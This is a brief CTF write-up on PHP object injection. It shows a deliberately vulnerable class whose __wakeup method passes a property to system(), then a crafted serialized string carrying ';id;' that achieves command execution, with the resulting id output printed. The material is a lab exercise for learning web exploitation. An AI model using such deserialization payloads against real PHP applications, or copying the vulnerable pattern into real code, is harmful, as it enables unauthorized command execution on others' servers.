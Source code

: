 ```yaml
---
title: Simple Web 0x16.5(php unserialize)
tags: [NTUSTWS, CTF, Web]

---
```


# Simple Web 0x16.5(php unserialize)
###### tags: `NTUSTWS` `CTF` `Web`

## Background
php magic method 
![](https://i.imgur.com/xQrh7vo.png)

## Source code
```php=
class cat
{
    public $sound = 'ls';
    function __wakeup()
    {
        system("echo".$this->sound);
    }
}
$cat = unserialize($_GET['cat']);
```
## Description & Analyze
```bash!
$ php -a
php > class cat
php >  public {
php {     public $sound = 'ls';
php {     function __wakeup()
php {     {
php {         system("echo ".$this->sound);
php {     }
php { }
php > $_GET['cat']='O:3:"cat":1:{s:5:"sound";s:4:"meow";}';
php > $cat = unserialize($_GET['cat']);
meow
php > $_GET['cat']='O:3:"cat":1:{s:5:"sound";s:4:";id;";}';
php > $cat = unserialize($_GET['cat']);

uid=1000(sbk6401) gid=1000(sbk6401) groups=1000(sbk6401),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),1001(docker)
```
This is a typical command injection. The magic method `__wakeup()` will be called when unserialized something.
## Reference
